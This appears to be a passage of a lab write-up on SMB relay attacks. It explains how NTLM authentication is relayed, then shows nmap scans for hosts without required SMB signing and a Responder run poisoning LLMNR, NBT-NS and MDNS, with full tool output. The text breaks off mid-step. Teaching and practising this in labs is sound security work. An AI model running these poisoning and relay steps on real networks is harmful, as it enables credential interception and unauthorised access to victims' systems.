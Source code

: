 
![](assets/Pasted%20image%2020241217203937.png)

# [What is SMB Relay Attack?]()

An **SMB relay attack** is a type of **Man-in-the-Middle (MitM)** attack that exploits the **SMB** protocol. In this attack, an adversary relays SMB authentication requests from a victim to a legitimate server, effectively **impersonating the victim to gain unauthorised access.**

An SMB relay attack is a type of Man-in-the-Middle (MitM) attack that exploits the Server Message Block (SMB) protocol, commonly used in Windows environments for file sharing, printing services, and inter-process communication. In this attack, an adversary relays SMB authentication requests from a victim to a legitimate server, effectively impersonating the victim to gain unauthorised access.

# [How SMB Relay Attacks Work?]()

1. **Intercept SMB Traffic**: The attacker positions themselves between the client (victim) and the server, intercepting SMB traffic.
2. **Relay Authentication**: When the client attempts to authenticate to a malicious SMB server (controlled by the attacker), the attacker captures the credentials (e.g., NTLM challenge/response).
3. **Forward to Legitimate Server**: The attacker forwards the captured credentials to the legitimate server to authenticate as the victim.
4. **Gain Unauthorised Access**: If the server accepts the relayed credentials, the attacker gains access to resources under the victim's permissions.

# [Steps of SMB Relay Attack:]()

## [Responder]()

-  Check if clients are vulnerable to SMB relay attack (look for **message signing enabled but not required**)

***Domain controller***
```
┌─[hexadivine@parrot]─[~]
└──╼ $nmap -p445 -script=smb2-security-mode 192.168.0.2 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-17 20:58 IST
Nmap scan report for 192.168.0.2 (192.168.0.2)
Host is up (0.00057s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Nmap done: 1 IP address (1 host up) scanned in 0.15 seconds

```

***Client 1: Spiderman***
```
┌─[hexadivine@parrot]─[~]
└──╼ $nmap -p445 -script=smb2-security-mode 192.168.0.3 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-17 20:56 IST
Nmap scan report for 192.168.0.3 (192.168.0.3)
Host is up (0.00067s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 0.19 seconds
```

***Client 2: Ironman***
```
┌─[hexadivine@parrot]─[~]
└──╼ $nmap -p445 -script=smb2-security-mode 192.168.0.4 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-17 20:58 IST
Nmap scan report for 192.168.0.4 (192.168.0.4)
Host is up (0.0011s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 0.19 seconds
```

- Configure the responder for this attack (turn off SMB and HTTP)

```
sudo nano /etc/responder/Responder.conf
```
![](assets/Pasted%20image%2020241217204838.png)

- Listen for LLMNR request using responder

```
┌─[hexadivine@parrot]─[~]
└──╼ $sudo responder -I wlp0s20f3 -dwPv
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [ON]

[+] Servers:
    HTTP server                [OFF]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [ON]
    SMB server                 [OFF]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [wlp0s20f3]
    Responder IP               [192.168.0.105]
    Responder IPv6             [fe80::7635:bf9e:3643:497f]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-6AVN6QJO1Z1]
    Responder Domain Name      [QQVB.LOCAL]
    Responder DCE-RPC Port     [46425]

[+] Listening for events...

```

- Add target IPs to the file

![](assets/Pasted%20image%2020241217210326.png)

- Start 